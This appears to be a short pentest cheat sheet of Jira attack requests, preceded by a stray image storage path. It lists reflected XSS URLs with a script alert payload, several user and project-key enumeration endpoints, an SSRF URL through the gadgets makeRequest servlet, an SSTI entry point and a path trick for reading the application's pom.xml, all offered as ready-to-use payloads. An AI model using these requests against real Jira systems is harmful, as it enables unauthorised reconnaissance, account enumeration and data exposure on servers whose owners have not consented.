 jira softwares => THey are built by atlassian and they have a number of Public CVE's including SSRF, XSS and Sensitive data exposure !


#Common vulnerabilities
##They are :

XSS :
<JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search

USER ENUMERATION :
/secure/ViewUserHover.jspa?username=<uname>

PROJECT KEY ENUMERATION :
/browse.<project_key> => CAN check if project keys are valid or not
Unauth entry is also possible

XSS :
/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
Almost all the search queries are vulnerable to XSS.

SSTI :
/secure/ContactAdministrators!default.jspa

SSRF :
/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com

SPECIFIC USER INNFO ENUM :
/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true

USER ENUM :
rest/api/2/user/picker?query=<user_name_here> 
Says if a user is valid or not

SENSITIVE ENUM :
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
